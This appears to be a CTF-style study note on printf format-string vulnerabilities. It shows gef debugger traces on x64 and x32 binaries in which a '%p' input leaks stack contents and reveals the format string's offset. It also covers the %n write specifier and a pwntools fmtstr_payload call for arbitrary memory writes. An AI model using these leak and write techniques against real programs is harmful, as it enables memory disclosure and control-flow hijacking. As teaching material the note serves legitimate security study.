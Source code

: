 ```
x64 int printf (rdi, rsi, rdx, rcx, r8, r9, rsp, rsp+0x8, rsp+0x10, ...);
x32 int printf (esp, esp+4, esp+8, esp+0x0c, esp+0x10, esp+14, esp+18, esp+0x1c , ...);
```

<details>
    <summary>#x64</summary>


# x64
`int printf ( const char * format, ... );`
`char *fgets(char *s, int size, FILE *stream);`

first we need to find find the `call printf()`

```
   0x000000000040128d <+72>:    lea    rax,[rbp-0x50]       
   0x0000000000401291 <+76>:    mov    esi,0x1f4
   0x0000000000401296 <+81>:    mov    rdi,rax              
   0x0000000000401299 <+84>:    call   0x4010c0 <fgets@plt>
   0x000000000040129e <+89>:    lea    rax,[rbp-0x50]
   0x00000000004012a2 <+93>:    mov    rdi,rax
   0x00000000004012a5 <+96>:    mov    eax,0x0
=> 0x00000000004012aa <+101>:   call   0x4010b0 <printf@plt>
```

notice before printf() is called rdi will be set to the addr of `[rbp-0x50]`:

```
   0x000000000040129e <+89>:    lea    rax,[rbp-0x50]
   0x00000000004012a2 <+93>:    mov    rdi,rax
```

```
$rbp  : 0x00007fffffffdf20  →  0x0000000000000000

0x00007fffffffdf20 - 0x50 = 0x00007fffffffded0
```

and rax will be set to 0x0
```
   0x00000000004012a5 <+96>:    mov    eax,0x0
```


break at `→   0x4012aa <main+101>       call   0x4010b0 <printf@plt>`
```
$rax   : 0x0               
$rbx   : 0x00000000004012d0  →  <__libc_csu_init+0> endbr64 
$rcx   : 0x00000000004052b8  →  0x0000000000000000
$rdx   : 0x0               
$rsp   : 0x00007fffffffdec0  →  0x0000000000400040  →  0x0000000400000006
$rbp   : 0x00007fffffffdf20  →  0x0000000000000000
$rsi   : 0x00000000004052a1  →  "p %p %p %p %p %p %p %p\n"
$rdi   : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"
$rip   : 0x00000000004012aa  →  <main+101> call 0x4010b0 <printf@plt>
$r8    : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"
$r9    : 0x7c              
$r10   : 0x00007ffff7fa7be0  →  0x00000000004056a0  →  0x0000000000000000
$r11   : 0x246             
$r12   : 0x00000000004010f0  →  <_start+0> endbr64 
$r13   : 0x00007fffffffe010  →  0x0000000000000001
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero carry parity adjust sign trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000 
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0x00007fffffffdec0│+0x0000: 0x0000000000400040  →  0x0000000400000006    ← $rsp
0x00007fffffffdec8│+0x0008: 0x0000000100f0b5ff
0x00007fffffffded0│+0x0010: "%p %p %p %p %p %p %p %p\n"  ← $rdi, $r8
0x00007fffffffded8│+0x0018: "%p %p %p %p %p\n"
0x00007fffffffdee0│+0x0020: "p %p %p\n"
0x00007fffffffdee8│+0x0028: 0x0000000000401300  →  <__libc_csu_init+48> dec DWORD PTR [rax-0x3f]
0x00007fffffffdef0│+0x0030: 0x00007ffff7facfc8  →  0x0000000000000000
0x00007fffffffdef8│+0x0038: 0x00000000004012d0  →  <__libc_csu_init+0> endbr64 
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:64 ────
     0x40129e <main+89>        lea    rax, [rbp-0x50]
     0x4012a2 <main+93>        mov    rdi, rax
     0x4012a5 <main+96>        mov    eax, 0x0
 →   0x4012aa <main+101>       call   0x4010b0 <printf@plt>
   ↳    0x4010b0 <printf@plt+0>   endbr64 
        0x4010b4 <printf@plt+4>   bnd    jmp QWORD PTR [rip+0x2f6d]        # 0x404028 <printf@got.plt>
        0x4010bb <printf@plt+11>  nop    DWORD PTR [rax+rax*1+0x0]
        0x4010c0 <fgets@plt+0>    endbr64 
        0x4010c4 <fgets@plt+4>    bnd    jmp QWORD PTR [rip+0x2f65]        # 0x404030 <fgets@got.plt>
        0x4010cb <fgets@plt+11>   nop    DWORD PTR [rax+rax*1+0x0]
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   $rdi = 0x00007fffffffded0 → "%p %p %p %p %p %p %p %p\n"
)


```
notice:


rsp = `0x00007fffffffdec0│+0x0000: 0x0000000000400040  →  0x0000000400000006     ← $rsp`

inspect the stack at 0x00007fffffffdec0

```
gef➤  tel 0x00007fffffffdec0
0x00007fffffffdec0│+0x0000: 0x0000000000400040  →  0x0000000400000006    ← $rsp
0x00007fffffffdec8│+0x0008: 0x0000000100f0b5ff
0x00007fffffffded0│+0x0010: "%p %p %p %p %p %p %p %p\n"  ← $rdi, $r8
0x00007fffffffded8│+0x0018: "%p %p %p %p %p\n"
0x00007fffffffdee0│+0x0020: "p %p %p\n"
0x00007fffffffdee8│+0x0028: 0x0000000000401300  →  <__libc_csu_init+48> dec DWORD PTR [rax-0x3f]
0x00007fffffffdef0│+0x0030: 0x00007ffff7facfc8  →  0x0000000000000000
0x00007fffffffdef8│+0x0038: 0x00000000004012d0  →  <__libc_csu_init+0> endbr64 
0x00007fffffffdf00│+0x0040: 0x0000000000000000
0x00007fffffffdf08│+0x0048: 0x00000000004010f0  →  <_start+0> endbr64 

```
this is what printf() prints back to us
```
0x4052a1 (nil) 0x4052b8 0x7fffffffded0 0x7c 0x400040 0x100f0b5ff 0x7025207025207025
```
`int printf ( const char * format, ... );`
`int printf (rdi, rsi, rdx, rcx, r8, r9, rsp, rsp+0x8, rsp+0x10, ...);`

rdi = holds the pointer to the Format_string

```

$rdi        : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"

$rsi        : 0x00000000004052a1  →  "p %p %p %p %p %p %p %p\n"
$rdx        : 0x0  
$rcx        : 0x00000000004052b8  →  0x0000000000000000
$r8         : 0x00007fffffffded0  →  "%p %p %p %p %p %p %p %p\n"
$r9         : 0x7c 

$rsp        : 0x00007fffffffdec0  →  0x0000000000400040  →  0x0000000400000006
$rsp+0x8    : 0x00007fffffffdec8│+0x0008: 0x0000000100f0b5ff
$rsp+0x10   : 0x00007fffffffded0│+0x0010: "%p %p %p %p %p %p %p %p\n"    ← $rdi, $r8         


```
notice:
that `0x7025207025207025 = "%p %p %p"` so our Format_string is stored @ `rsp+0x10`
and `$r8 : 0x00007fffffffded0` holds a pointer to out Format_string


</details>
















# x32
`int printf ( const char * format, ... );`
`char *fgets(char *s, int size, FILE *stream);`

first we need to find find the `call printf()`

```
   0x080492bf <+94>:    push   eax
   0x080492c0 <+95>:    push   0x40
   0x080492c2 <+97>:    lea    eax,[ebp-0x4c]               #ebp-0x4c Format_String
   0x080492c5 <+100>:   push   eax
   0x080492c6 <+101>:   call   0x80490b0 <fgets@plt>
   0x080492cb <+106>:   add    esp,0x10
   0x080492ce <+109>:   sub    esp,0xc
   0x080492d1 <+112>:   lea    eax,[ebp-0x4c]               #ebp-0x4c Format_String
   0x080492d4 <+115>:   push   eax                          # notice that push   eax
=> 0x080492d5 <+116>:   call   0x80490a0 <printf@plt>
```

notice before printf() is called eax will be set to the addr of `[ebp-0x4c]`:

`$ebp   : 0xffffd0b8  →  0x00000000`

```
0xffffd0b8 - 0x4c = 0xffffd06c
```

so after the `lea    eax,[ebp-0x4c]` eax will be = 0xffffd06c
and than eax gets pushed to esp

```
0x080492d4 <+115>:  push   eax                          
```

`0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"     ← $esp`


break at `→  0x80492d5 <main+116>       call   0x80490a0 <printf@plt>`
```

$eax   : 0xffffd06c  →  "%p %p %p %p %p %p %p\n"
$ebx   : 0x0804bfd0  →  0x0804bed8  →  0x00000001
$ecx   : 0x0       
$edx   : 0xfbad2288
$esp   : 0xffffd050  →  0xffffd06c  →  "%p %p %p %p %p %p %p\n"
$ebp   : 0xffffd0b8  →  0x00000000
$esi   : 0xf7fac000  →  0x001ead6c
$edi   : 0xf7fac000  →  0x001ead6c
$eip   : 0x080492d5  →  <main+116> call 0x80490a0 <printf@plt>
$eflags: [zero carry parity ADJUST SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x0023 $ss: 0x002b $ds: 0x002b $es: 0x002b $fs: 0x0000 $gs: 0x0063 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"  ← $esp
0xffffd054│+0x0004: 0x00000040 ("@"?)
0xffffd058│+0x0008: 0xf7fac580  →  0xfbad2288
0xffffd05c│+0x000c: 0x08049292  →  <main+49> sub esp, 0xc
0xffffd060│+0x0010: 0x009c27ab
0xffffd064│+0x0014: 0x00000534
0xffffd068│+0x0018: 0x00000003
0xffffd06c│+0x001c: "%p %p %p %p %p %p %p\n"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80492ce <main+109>       sub    esp, 0xc
●   0x80492d1 <main+112>       lea    eax, [ebp-0x4c]
    0x80492d4 <main+115>       push   eax
 →  0x80492d5 <main+116>       call   0x80490a0 <printf@plt>
   ↳   0x80490a0 <printf@plt+0>   endbr32 
       0x80490a4 <printf@plt+4>   jmp    DWORD PTR ds:0x804bfdc
       0x80490aa <printf@plt+10>  nop    WORD PTR [eax+eax*1+0x0]
       0x80490b0 <fgets@plt+0>    endbr32 
       0x80490b4 <fgets@plt+4>    jmp    DWORD PTR ds:0x804bfe0
       0x80490ba <fgets@plt+10>   nop    WORD PTR [eax+eax*1+0x0]
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── arguments (guessed) ────
printf@plt (
   [sp + 0x0] = 0xffffd06c → "%p %p %p %p %p %p %p\n",
   [sp + 0x4] = 0x00000040
)



```
notice:

esp = `0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"   ← $esp`

inspect the stack at 0xffffd050

```
gef➤  tel 0xffffd050
0xffffd050│+0x0000: 0xffffd06c  →  "%p %p %p %p %p %p %p\n"  ← $esp
0xffffd054│+0x0004: 0x00000040 ("@"?)
0xffffd058│+0x0008: 0xf7fac580  →  0xfbad2288
0xffffd05c│+0x000c: 0x08049292  →  <main+49> sub esp, 0xc
0xffffd060│+0x0010: 0x009c27ab
0xffffd064│+0x0014: 0x00000534
0xffffd068│+0x0018: 0x00000001
0xffffd06c│+0x001c: "%p %p %p %p %p %p %p\n"
0xffffd070│+0x0020: "p %p %p %p %p %p\n"
0xffffd074│+0x0024: "%p %p %p %p\n"
```
this is what printf() prints back to us
```
0x40 0xf7fac580 0x8049292 0x9c27ab 0x534 0x1 0x25207025
```
notice:
that `0x25207025 = "%p %"` so our Format_string is stored @ `esp+0x1c`

`int printf (esp, esp+4, esp+8, esp+0x0c, esp+0x10, esp+14, esp+18, esp+0x1c , ...);`

`esp` holds the pointer to our Format_string
`esp+0x1c` is the addr esp points to
```
$esp+0x04    0xffffd054│+0x0004: 0x00000040 ("@"?)
$esp+0x08    0xffffd058│+0x0008: 0xf7fac580  →  0xfbad2288
$esp+0x0c    0xffffd05c│+0x000c: 0x08049292  →  <main+49> sub esp, 0xc
$esp+0x10    0xffffd060│+0x0010: 0x009c27ab
$esp+0x14    0xffffd064│+0x0014: 0x00000534
$esp+0x18    0xffffd068│+0x0018: 0x00000001
$esp+0x1c    0xffffd06c│+0x001c: "%p %p %p %p %p %p %p\n"
```




















# Format table
```
specifier       Output                                      Example

d or i          Signed decimal integer                              392
u               Unsigned decimal integer                            7235
o               Unsigned octal                                      610
x               Unsigned hexadecimal integer                        7fa
X               Unsigned hexadecimal integer (uppercase)            7FA
f               Decimal floating point, lowercase                   392.65
F               Decimal floating point, uppercase                   392.65
e               Scientific notation (mantissa/exponent), lowercase  3.9265e+2
E               Scientific notation (mantissa/exponent), uppercase  3.9265E+2
g               Use the shortest representation: %e or %f           392.65
G               Use the shortest representation: %E or %F           392.65
a               Hexadecimal floating point, lowercase               -0xc.90fep-2
A               Hexadecimal floating point, uppercase               -0XC.90FEP-2
c               Character                                           a
s               String of characters                                sample
p               Pointer address                                     b8000000

n               Nothing printed.
                The corresponding argument must be a pointer to a signed int.
                The number of characters written so far is stored in the pointed location.


%               A % followed by another % character will write a single % to the stream. %

```

most interesing imo. are 
```
x               Unsigned hexadecimal integer                        7fa
c               Character                                           a
s               String of characters                                sample
p               Pointer address                                     b8000000

n               Nothing printed.
                The corresponding argument must be a pointer to a signed int.
                The number of characters written so far is stored in the pointed location.
```

some examples for interesting specifieres such as `%n %hn %hhn` and `%10000c` will come next

# pwntools Format string payload generator 
```
writes = {hex(where): hex(what)}
payload = pwnlib.fmtstr.fmtstr_payload(6, writes, numbwritten=0, write_size='byte') 
```

```
Parameters:    

    offset (int) – the first formatter’s offset you control
    writes (dict) – dict with addr, value {addr: value, addr2: value2}
    numbwritten (int) – number of byte already written by the printf function
    write_size (str) – must be byte, short or int. Tells if you want to write byte by byte, short by short or int by int (hhn, hn or n)
    overflows (int) – how many extra overflows (at size sz) to tolerate to reduce the length of the format string
    strategy (str) – either ‘fast’ or ‘small’ (‘small’ is default, ‘fast’ can be used if there are many writes)

Returns:    

The payload in order to do needed writes
```
